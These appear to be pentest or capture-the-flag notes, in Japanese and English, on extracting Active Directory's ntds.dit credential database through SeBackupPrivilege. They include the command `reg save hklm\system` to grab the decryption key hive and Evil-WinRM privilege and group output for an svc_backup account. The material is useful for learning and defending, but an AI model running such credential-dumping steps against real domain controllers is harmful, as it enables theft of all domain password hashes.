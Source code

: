 ## ntds.ditとは？
- **ドメインコントローラーの中でも最も重要なデータベースファイル**
- All data in Active Directory is stored in the file **ntds.dit** (by default located in `C:\Windows\NTDS\`) on every domain controller. (c.f.[Ntds.dit Password Extraction(stealthbits)](https://attack.stealthbits.com/ntds-dit-security-active-directory))
- Admin権限 or **backupユーザー** であれば見れるかも
- **SeBackupPrivilege**が読むことを、**SeRestorePrivilege**が書き込むこと、この二つの権限があれば良い。
- ntds.ditの存在場所：**C:\Windows\NTDS\ntds.dit**
- NTDSファイルをdecryptするためにはkeyが必要で、そのkeyは**system registry hive**なるレジストリに含まれている。-> `reg save hklm\system c:\temp\system`


c.f.)
- 複数のやり方が書いてある -> [Tha Hacker Recipies](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds)
- 実際にうまく動いた -> [Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)

**SeBackupPrivilege**がある：

```
*Evil-WinRM* PS C:\Users\svc_backup> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc_backup> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level
```
